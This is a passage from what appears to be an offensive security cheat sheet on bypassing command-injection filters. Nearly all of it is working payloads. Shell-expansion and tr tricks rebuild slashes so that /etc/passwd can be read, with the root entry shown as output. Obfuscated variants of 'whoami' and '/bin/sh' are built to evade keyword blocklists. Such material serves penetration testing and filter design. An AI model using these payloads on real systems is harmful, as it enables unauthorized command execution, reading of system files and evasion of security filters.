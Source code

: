 
### Bypass characters filter

Commands execution without backslash and slash - linux bash

```powershell
swissky@crashlab:~$ echo ${HOME:0:1}
/

swissky@crashlab:~$ cat ${HOME:0:1}etc${HOME:0:1}passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ echo . | tr '!-0' '"-1'
/

swissky@crashlab:~$ tr '!-0' '"-1' <<< .
/

swissky@crashlab:~$ cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
root:x:0:0:root:/root:/bin/bash
```


### Bypass Blacklisted words

#### Bypass with single quote

```powershell
w'h'o'am'i
wh''oami
```

#### Bypass with double quote

```powershell
w"h"o"am"i
wh""oami
```

#### Bypass with backticks

```powershell
wh``oami
```

#### Bypass with backslash and slash

```powershell
w\ho\am\i
/\b\i\n/////s\h
```

#### Bypass with $@

`$0`: Refers to the name of the script if it's being run as a script. If you're in an interactive shell session, `$0` will typically give the name of the shell.
